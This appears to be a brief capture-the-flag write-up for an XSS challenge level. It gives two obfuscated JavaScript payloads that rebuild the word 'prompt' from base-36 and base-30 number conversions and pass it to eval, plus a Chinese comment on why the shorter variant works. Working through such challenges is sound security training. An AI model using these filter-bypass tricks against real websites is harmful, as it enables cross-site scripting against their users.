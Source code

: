 

## Solutions:

```
1.eval((1558153217).toString(36).concat(String.fromCharCode(40)).concat(1).concat(String.fromCharCode(41)))

2. 参考答案的简化版,因为没有对(1)过滤
eval((630038579).toString(30))(1)
```





## Img:

1. `eval((1558153217).toString(36).concat(String.fromCharCode(40)).concat(1).concat(String.fromCharCode(41)))`

![C_1](/img/xss/prompt_ml/levelC_001.png)

2.  `eval((630038579).toString(30))(1)`

![C_2](/img/xss/prompt_ml/levelC_002.png)

